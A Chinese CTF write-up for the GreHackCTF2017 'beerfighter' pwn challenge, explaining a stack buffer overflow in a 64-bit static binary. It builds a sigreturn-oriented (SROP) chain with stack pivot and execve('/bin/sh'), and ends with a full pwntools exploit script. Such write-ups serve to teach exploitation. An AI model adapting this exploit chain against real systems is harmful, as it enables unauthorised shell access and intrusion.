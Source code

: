 # 6.1.5 pwn GreHackCTF2017 beerfighter

- [题目解析](#题目解析)
- [Exploit](#exploit)


[下载文件](../src/writeup/6.1.5_pwn_grehackctf2017_beerfighter)

## 题目解析
```
$ file game 
game: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), statically linked, BuildID[sha1]=1f9b11cb913afcbbbf9cb615709b3c62b2fdb5a2, stripped
```
64 位，静态链接，stripped。

既然是个小游戏，先玩一下，然后发现，进入 City Hall 后，有一个可以输入字符串的地方，然而即使我们什么也不输入，直接回车，在 Leave the town 时也会出现 Segmentation fault：
```
[0] The bar
[1] The City Hall
[2] The dark yard
[3] Leave the town for ever
Type your action number > 1
Welcome Newcomer! I am the mayor of this small town and my role is to register the names of its citizens.
How should I call you?
[0] Tell him your name
[1] Leave
Type your action number > 0
Type your character name here >

...

[0] The bar
[1] The City Hall
[2] The dark yard
[3] Leave the town for ever
Type your action number > 3
By !

Segmentation fault (core dumped)
```

程序大概清楚了，看代码吧，经过一番搜索，发现了一个很有意思的函数：
```
[0x00400d8e]> pdf @ fcn.00400773
/ (fcn) fcn.00400773 15
|   fcn.00400773 ();
|              ; CALL XREF from 0x00400221 (fcn.004001f3)
|              ; CALL XREF from 0x004002b6 (fcn.00400288)
|           0x00400773      4889f8         mov rax, rdi
|           0x00400776      4889f7         mov rdi, rsi
|           0x00400779      4889d6         mov rsi, rdx
|           0x0040077c      4889ca         mov rdx, rcx
|           0x0040077f      0f05           syscall
\           0x00400781      c3             ret
```
`syscall;ret`，你想到了什么，对，就是前面讲的 SROP。

其实前面的输入一个字符串，程序也是通过 syscall 来读入的，从函数 `0x004004b8` 开始仔细跟踪代码后就会知道，系统调用为 `read()`。

```
gdb-peda$ pattern_offset $ebp
1849771374 found at offset: 1040
```
缓冲区还挺大的，`1040+8=1048`。

好，现在思路已经清晰了，先利用缓冲区溢出漏洞，用 `syscall;ret` 地址覆盖返回地址，通过 frame\_1 调用 `read()` 读入 frame_2 到 `.data` 段（这个程序没有`.bss`，而且`.data`可写），然后将栈转移过去，调用 `execve()` 执行“/bin/sh”，从而拿到 shell。

构造 sigreturn：
```
$ ropgadget --binary game --only "pop|ret"
...
0x00000000004007b2 : pop rax ; ret
```
```python
# sigreturn syscall
sigreturn  = p64(pop_rax_addr)
sigreturn += p64(constants.SYS_rt_sigreturn)    # 0xf
sigreturn += p64(syscall_addr)
```

然后是 frame_1，通过设定 `frame_1.rsp = base_addr` 来转移栈：
```python
# frame_1: read frame_2 to .data
frame_1 = SigreturnFrame()
frame_1.rax = constants.SYS_read
frame_1.rdi = constants.STDIN_FILENO
frame_1.rsi = data_addr
frame_1.rdx = len(str(frame_2))
frame_1.rsp = base_addr             # stack pivot
frame_1.rip = syscall_addr
```

frame_2 执行 `execve()`：
```python
# frame_2: execve to get shell
frame_2 = SigreturnFrame()
frame_2.rax = constants.SYS_execve
frame_2.rdi = data_addr
frame_2.rsi = 0
frame_2.rdx = 0
frame_2.rip = syscall_addr
```

Bingo!!!
```
$ python2 exp.py 
[*] '/home/firmy/Desktop/game'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[+] Starting local process './game': pid 12975
[*] Switching to interactive mode
By !

$ whoami
firmy
```


## Exploit
完整的 exp 如下：
```python
from pwn import *

elf = ELF('./game')
io = process('./game')
io.recvuntil("> ")
io.sendline("1")
io.recvuntil("> ")
io.sendline("0")
io.recvuntil("> ")

context.clear()
context.arch = "amd64"

data_addr = elf.get_section_by_name('.data').header.sh_addr + 0x10
base_addr = data_addr + 0x8   # new stack address

# useful gadget
pop_rax_addr = 0x00000000004007b2   # pop rax ; ret
syscall_addr = 0x000000000040077f   # syscall ;

# sigreturn syscall
sigreturn  = p64(pop_rax_addr)
sigreturn += p64(constants.SYS_rt_sigreturn)    # 0xf
sigreturn += p64(syscall_addr)

# frame_2: execve to get shell
frame_2 = SigreturnFrame()
frame_2.rax = constants.SYS_execve
frame_2.rdi = data_addr
frame_2.rsi = 0
frame_2.rdx = 0
frame_2.rip = syscall_addr

# frame_1: read frame_2 to .data
frame_1 = SigreturnFrame()
frame_1.rax = constants.SYS_read
frame_1.rdi = constants.STDIN_FILENO
frame_1.rsi = data_addr
frame_1.rdx = len(str(frame_2))
frame_1.rsp = base_addr             # stack pivot
frame_1.rip = syscall_addr

payload_1  = "A" * 1048
payload_1 += sigreturn
payload_1 += str(frame_1)

io.sendline(payload_1)
io.recvuntil("> ")
io.sendline("3")

payload_2  = "/bin/sh\x00"
payload_2 += sigreturn
payload_2 += str(frame_2)

io.sendline(payload_2)
io.interactive()
```
